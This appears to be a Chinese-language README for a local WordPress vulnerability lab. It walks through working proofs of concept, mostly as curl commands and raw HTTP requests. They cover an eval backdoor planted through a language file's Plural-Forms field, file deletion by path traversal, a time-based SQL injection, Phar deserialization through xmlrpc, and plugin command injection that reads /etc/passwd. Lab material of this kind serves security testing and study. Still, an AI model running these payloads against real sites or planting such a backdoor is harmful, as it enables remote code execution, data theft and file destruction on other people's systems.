 ## 环境说明

- src/wordpress/4.6.1/

  - 后台地址

    http://127.0.0.1/wp-login.php

  - 账号/密码

    admin/admin

- src/wordpress/4.9.8/

  - 后台地址

    http://127.0.0.1/wp-login.php

  - 账号/密码

    admin/admin

  - 说明

    从4.6.1升级产生，已安装插件**WooCommerce**



## gettext + create_function 构建 wordpress 后门

测试镜像

* src/wordpress/4.6.1/

参考链接

* [Wordpress <= 4.6.1 使用语言文件任意代码执行漏洞分析](https://paper.seebug.org/63/)

Poc

1. [下载语言文件](https://translate.wordpress.org/projects/wp/4.6.x/zh-cn/default)
2. 编辑 PO 文件，修改 `Plural-Forms`
   * e.g `"Plural-Forms: nplurals=1; plural=@eval($_GET[0]);\n"`
3. 在 wordpress 后台使用这个语言文件   
4. 访问 /index.php?0=phpinfo(); 进行测试




## Wordpress <= 4.9.6 任意文件删除漏洞

测试镜像

- src/wordpress/4.6.1/

影响版本

- wordpress <= 4.9.6

参考链接

- [Wordpress <= 4.9.6 任意文件删除漏洞](https://xz.aliyun.com/t/2413)

Poc

1、登录后台，在Dashboadrd->Media->Add New处上传任意图片（如 src/wordpress/4.6.1/demo.jpeg）

2、点击edit编辑上传的图片，记录url中的item或post参数，如post=4

3、在edit页面上查找包含_wpnonce的input标签，记录value

`<input type="hidden" id="_wpnonce" name="_wpnonce" value="c9d6fb475f">`

4、浏览器中提取登录后的cookie，执行curl修改thumb为要删除的文件（环境中预先创建了用于测试的test_del_file.txt文件）：

```shell
curl 'http://172.17.0.2/wp-admin/post.php?post=4' --cookie "登录后的cookie" -d 'action=editattachment&_wpnonce=c9d6fb475f&thumb=../../../../test_del_file.txt'
```

5、在编辑图片页面点击Delete Permanently删除上传的图片，触发漏洞删除文件test_del_file.txt



## Wordpress <= 4.8.2 SQL注入漏洞

测试镜像

- src/wordpress/4.6.1/

影响版本

- wordpress <= 4.8.2

参考链接

- [WordPress ≤ 4.8.2 POST META 校验绕过漏洞](http://www.freebuf.com/vuls/153959.html)

Poc

1、登录后台，在Dashboadrd->Media->Add New处上传任意图片（如 src/wordpress/4.6.1/demo.jpeg）

2、编辑上传的图片，记录url中的post或item参数，如post=4

3、在Posts->All Posts中点击任意文章进行编辑，记录url中的post参数值，如post=1，在html中搜索_ajax_nonce-add-meta，记录value，如 `ajax_nonce-add-meta=24fb4aa9b9"`

4、浏览器中提取登录后的cookie，执行curl添加字段，参数_ajax_nonce-add-meta为3中提取的值，metavalue开头数字为上传图片的item值，这里为4，post_id为3中获取的post：

```shell
curl 'http://172.17.0.2/wp-admin/admin-ajax.php' --cookie "登录后的cookie" -d '_ajax_nonce=0&action=add-meta&metakeyinput=%00_thumbnail_id&metavalue=4%20%251$%25s%20or%20sleep(10)%23&_ajax_nonce-add-meta=24fb4aa9b9&post_id=1'
```

5、在http://172.17.0.2/wp-admin/edit.php页面上查找包含_wpnonce的input标签，记录value

`<input type="hidden" id="_wpnonce" name="_wpnonce" value="233a3d3d36">`

6、使用获取的\_wpnonce参数访问`http://172.17.0.2/wp-admin/edit.php?action=delete&_wpnonce=获取的参数&ids=4%20%251$%25s%20or%20sleep(10)%23`触发漏洞（产生查询延迟）



## Wordpress Phar反序列化漏洞

测试镜像

- src/wordpress/4.9.8/

影响版本

- wordpress <= 4.8.9 尚未修复

参考链接

- [利用 phar 拓展 php 反序列化漏洞攻击面](https://paper.seebug.org/680/)

Poc

测试镜像中已经完成了上传包含phar序列化payload的文件，只需要触发反序列化即可，如果需要生成其他的payload，可以使用以下命令生成并上传：

```shell
php -d phar.readonly=false gen-phar-payload.php
```

测试命令

```shell
curl -d "<?xml version="1.0" encoding="utf-8"?><methodCall><methodName>wp.getMediaItem</methodName><params><param><value><string>11</string></value></param><param><value><string>admin</string></value></param><param><value><string>admin</string></value></param><param><value><int>12</int></value></param></params></methodCall>"  http://127.0.0.1/xmlrpc.php
```



## Wordpress 插件Plainview Activity Monitor 命令执行漏洞

测试镜像

- src/wordpress/4.9.8/

影响版本

- Plainview Activity Monitor < 20180826

参考链接

- [RCE with Plainview Activity Monitor WordPress plugin](https://github.com/aas-n/CVE/tree/master/plainview-activity-monitor)

Poc

登录后台并获取admin 的cookie，替换以下POST包中的cookie并发送，命令执行结果位于返回包的 out put from dig 处：

```shell
POST /wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://localhost:8000/wp-admin/admin.php?page=plainview_activity_monitor&tab=activity_tools
Content-Type: multipart/form-data; boundary=---------------------------13707449992054116824594351796
Content-Length: 311
Cookie: wordpress_70490311fe7c84acda8886406a6d884b=aas%7C1535400075%7CNJ8xAHSGtDKoNgc8tTpSZA6Dn6INW6PkzdG1IVzHX9Z%7C422290d1e6d712e3db5efb9ab4a9aa3df0631e20d5e0dce34ec84ec6f70766c8; PHPSESSID=18d2c15b8f5755104632ec1cc65c56e1; wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_70490311fe7c84acda8886406a6d884b=aas%7C1535400075%7CNJ8xAHSGtDKoNgc8tTpSZA6Dn6INW6PkzdG1IVzHX9Z%7C0d8cef0facff651e3b0b7790b6c3f84dad36051b8378487acbe5bf03ebef52af; wp-settings-1=deleted; wp-settings-time-1=1535227275
Connection: close
Upgrade-Insecure-Requests: 1

-----------------------------13707449992054116824594351796
Content-Disposition: form-data; name="ip"

google.fr|cat /etc/passwd
-----------------------------13707449992054116824594351796
Content-Disposition: form-data; name="lookup"

Lookup
-----------------------------13707449992054116824594351796--
```

